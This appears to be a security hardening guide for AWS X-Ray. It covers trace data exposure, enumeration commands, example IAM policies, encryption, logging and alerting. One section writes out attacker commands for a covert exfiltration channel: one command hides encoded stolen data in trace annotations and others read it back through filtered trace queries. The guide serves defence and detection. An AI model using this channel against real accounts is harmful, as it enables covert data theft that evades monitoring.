

AWS X-Ray is a distributed tracing service that collects data about requests served by your application. Trace data can contain sensitive application details, PII in annotations/metadata, internal architecture topology, and downstream service dependencies. X-Ray has been weaponized as a covert C2 channel (XRayC2) by encoding commands into trace annotations.
X-Ray collects trace segments from instrumented applications. Each segment contains timing data, annotations (indexed key-value pairs), and metadata (non-indexed key-value pairs of any type). Annotations and metadata can inadvertently contain PII, secrets, database queries, or internal service topology.
X-Ray natively integrates with Lambda, API Gateway, ECS, EKS, EC2, SNS, SQS, EventBridge, and App Mesh. DynamoDB calls appear in traces via AWS SDK instrumentation, not as a native integration. Lambda active tracing automatically creates trace segments for invocations. API Gateway tracing is enabled at the stage level. ECS/EKS use the X-Ray daemon as a sidecar container.
X-Ray trace data exposes application internals, service topology, and potentially PII. The service has been demonstrated as a viable C2 channel. Misconfigured encryption and overly broad IAM permissions amplify risk. However, X-Ray itself does not directly control infrastructure, limiting blast radius compared to services like IAM or EC2.
aws xray get-encryption-configaws xray get-sampling-rulesaws xray get-groupsaws xray get-trace-summaries \
--start-time $(date -u -d '10 minutes ago' +%s 2>/dev/null || date -u -v-10M +%s) \
--end-time $(date -u +%s)aws xray batch-get-traces \
--trace-ids "1-67890abc-def012345678abcdef012345"aws xray get-service-graph \
--start-time $(date -u -d '1 hour ago' +%s 2>/dev/null || date -u -v-1H +%s) \
--end-time $(date -u +%s)aws xray list-resource-policiesaws xray list-tags-for-resource \
--resource-arn "arn:aws:xray:us-east-1:123456789012:group/my-group/UniqueID"aws xray get-insight-summaries \
--start-time $(date -u -d '24 hours ago' +%s 2>/dev/null || date -u -v-24H +%s) \
--end-time $(date -u +%s) \
--group-arn "arn:aws:xray:us-east-1:123456789012:group/my-group/UniqueID"An attacker with xray:PutTraceSegments permission can encode arbitrary data into trace segments:
aws xray put-trace-segments \
--trace-segment-documents '{
"trace_id": "1-67890abc-def012345678abcdef012345",
"id": "abcd1234abcd1234",
"start_time": 1700000000,
"end_time": 1700000001,
"name": "exfil-segment",
"annotations": {
"payload": "BASE64_ENCODED_STOLEN_DATA_HERE"
}
}'An attacker retrieves data by filtering on known annotation keys:
aws xray get-trace-summaries \
--start-time $(date -u -d '1 hour ago' +%s 2>/dev/null || date -u -v-1H +%s) \
--end-time $(date -u +%s) \
--filter-expression 'annotation.payload BEGINSWITH "exfil"'Then fetch full trace content:
aws xray batch-get-traces --trace-ids "1-67890abc-def012345678abcdef012345"{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": "xray:*",
"Resource": "*"
}]
}Grants full control including encryption changes, sampling rule modification, resource policy changes, and ability to read all trace data. Equivalent to AWSXrayFullAccess.
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": [
"xray:PutTraceSegments",
"xray:PutTelemetryRecords",
"xray:GetSamplingRules",
"xray:GetSamplingTargets",
"xray:GetSamplingStatisticSummaries"
],
"Resource": "*"
}]
}Matches the AWSXRayDaemonWriteAccess managed policy. Allows sending traces and retrieving sampling configuration only. No read access to trace data.
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": [
"xray:GetSamplingRules",
"xray:GetSamplingTargets",
"xray:GetSamplingStatisticSummaries",
"xray:BatchGetTraces",
"xray:GetServiceGraph",
"xray:GetTraceGraph",
"xray:GetTraceSummaries",
"xray:GetGroups",
"xray:GetGroup",
"xray:ListTagsForResource",
"xray:ListResourcePolicies",
"xray:GetTimeSeriesServiceStatistics",
"xray:GetInsightSummaries",
"xray:GetInsight",
"xray:GetInsightEvents",
"xray:GetInsightImpactGraph",
"xray:BatchGetTraceSummaryById",
"xray:GetDistinctTraceGraphs"
],
"Resource": "*"
}]
}Read-only access for security monitoring. Matches the AWSXrayReadOnlyAccess managed policy. Cannot modify sampling rules, encryption, or submit trace data.
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Deny",
"Action": "xray:PutEncryptionConfig",
"Resource": "*",
"Condition": {
"ArnNotLike": {
"aws:PrincipalArn": "arn:aws:iam::*:role/SecurityAdmin"
}
}
}]
}Prevents non-admin roles from changing X-Ray encryption configuration. X-Ray does not provide service-specific condition keys, so the policy denies PutEncryptionConfig for all non-admin principals. Note: setting encryption type to NONE reverts to default built-in encryption -- X-Ray always encrypts data at rest.
Use a customer-managed KMS key for full control over key rotation, auditing, and access. Verify the configuration:
aws xray put-encryption-config \
--type KMS \
--key-id alias/xray-tracing-keyaws xray get-encryption-configBy default, only management events (CreateGroup, PutEncryptionConfig, etc.) are logged. Enable data events to capture PutTraceSegments, GetTraceSummaries, and BatchGetTraces calls.
Alert on anomalous patterns that indicate XRayC2 abuse: - Unexpected spikes in PutTraceSegments from non-application principals - Repeated GetTraceSummaries calls with annotation filter expressions from unusual IAM entities - Trace annotations containing base64-encoded or unusually long values - PutTraceSegments from IP addresses outside known application infrastructure
Only application roles running the X-Ray daemon or SDK should have PutTraceSegments permission. Deny this action for human users and non-application roles.
Audit sampling rules to ensure sensitive endpoints are either excluded or sampled minimally. Remove or restrict the default sampling rule if it captures sensitive traffic.
aws xray get-sampling-rulesReview resource policies and OAM links. Remove unnecessary cross-account sharing.
aws xray list-resource-policiesEnsure application code does not log PII, secrets, API keys, or tokens in X-Ray annotations or metadata. Annotations are indexed and searchable -- treat them as semi-public within anyone who has X-Ray read access.